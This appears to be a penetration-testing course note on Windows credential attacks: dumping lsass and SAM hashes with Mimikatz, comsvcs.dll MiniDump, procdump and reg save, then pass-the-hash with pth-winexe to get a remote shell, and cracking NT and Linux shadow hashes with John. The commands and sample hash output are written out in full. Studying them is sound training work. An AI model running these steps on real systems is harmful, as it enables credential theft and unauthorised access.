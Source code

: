 

When ID'ing a hash, there are 3 properties to consider:  
• Length  
• Char set used  
• Any special chars used.  
  
  
[hashid](hashid.md)  
  
[Hashes](Hashes.md)  
  
[Mimikatz](mimikatz.md)  
  
[pth-winexe](pth-winexe.md)

[winexe](winexe.md)
  
  
  
Other hash dumping tools, including **pwdump**, **fgdump**, & **Windows Credential Editor** (**wce**), work well against older Windows os' like Windows XP and Windows Server2003.  


### Finding lsass PID:
```powershell
tasklist /fi "imagename eq lsass.exe"
```


  
### Mimikatz:

```powershell
C:\> C:\Tools\password_attacks\mimikatz.exe  
...  
mimikatz # privilege::debug  
Privilege '20' OK  
  
mimikatz # token::elevate  
Token Id  : 0  
User name :  
SID name  : NT AUTHORITY\SYSTEM  
  
740     {0;000003e7} 1 D 33697 NT AUTHORITY\SYSTEM  S-1-5-18  (04g,21p)  Primary  
 -> Impersonated !  
 * Process Token : {0;0002e0fe} 1 F 3790250  corp\offsec  S-1-5-21-3048852426-3234707088-723452474-1103  (12g,24p)  Primary  
 * Thread Token  : {0;000003e7} 1 D 3843007  NT AUTHORITY\SYSTEM  S-1-5-18  (04g,21p)  Impersonation (Delegation)  
  
mimikatz # lsadump::sam  
Domain : CLIENT251  
SysKey : 457154fe3c13064d8ce67ff93a9257cf  
Local SID : S-1-5-21-3426091779-1881636637-1944612440  
SAMKey : 9b60bd58cdfd663166e8624f20a9a6e5  
...  
RID  : 000001f8 (504)  
User : WDAGUtilityAccount  
  Hash NTLM: 0c509cca8bcd12a26acf0d1e508cb028  
  
RID  : 000003e9 (1001)  
User : Offsec  
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
```


### comsvcs.dll
```powershell
ps C:\windows\system32> .\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```


### procdump.exe
```powershell
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```


### reg.exe
```powershell
reg save hklm\sam <directory-to-save>\sam
reg save hklm\system <directory-to-save>\system
```


### Pass the Hash:

Allows an attacker to auth to a remote target by using a valid combo of _username_ and _NTLM/LM hash_ rather than a clear text password.  
- Possible because NTLM/LM password hashes aren't salted & remain static between sessions.  
- Can also use to auth to other systems containing that same user & hash.  
  
  
Use **pth-winexe** from the Passing-The-Hash toolkit (a modified version of **winexe**), which performs auth using the SMB protocol.  
  
To execute an application like cmd on the remote computer using the SMB protocol, admin privileges are required due to auth'ing to the administrative share C$ and subsequent creation of a Windows service.  
  
  
Using the hash we just had dumped from **mimikatz.exe**:  
```bash
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd  
E_md4hash wrapper called.  
HASH PASS: Substituting user supplied NTLM HASH...  
Microsoft Windows [Version 10.0.16299.309]  
(c) 2017 Microsoft Corporation. All rights reserved.  
  
C:\Windows\system32>
```


Behind the scenes, the format of the NTLM hash we provided was changed into a NetNTLM version 1 or 2 format during the auth process.  

We can capture these hashes using MITM or poisoning attacks & either crack them or relay them.  
  
For example, some apps like IE and Windows Defender use the Web Proxy Auto-Discovery Protocol (WPAD) to detect proxy settings.  

If we are on the local network, we could poison these requests and force NetNTLM auth with a tool like _Responder.py_,  
	which creates a rogue WPAD server designed to exploit this security issue.  
Since poisoning is highly disruptive to other users, tools like Responder.py should never be used in the labs.  
  


### PW Cracking:

Brute forcing w/ [john](Tools.md#John%20the%20Ripper):  
```bash
cat hash.txt  
WDAGUtilityAccount:0c509cca8bcd12a26acf0d1e508cb028  
Offsec:2892d26cdf84d7a70e2eb3b9f05c425e  
  
sudo john hash.txt --format=NT  
Using default input encoding: UTF-8  
Rules/masks using ISO-8859-1  
Loaded 2 password hashes with no different salts (NT [MD4 128/128 AVX 4x3])
```


Linux:  
```bash
sudo unshadow /etc/passwd /etc/shadow > unshadowed.txt  
  
john --rules --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt unshadowed.txt
```

  

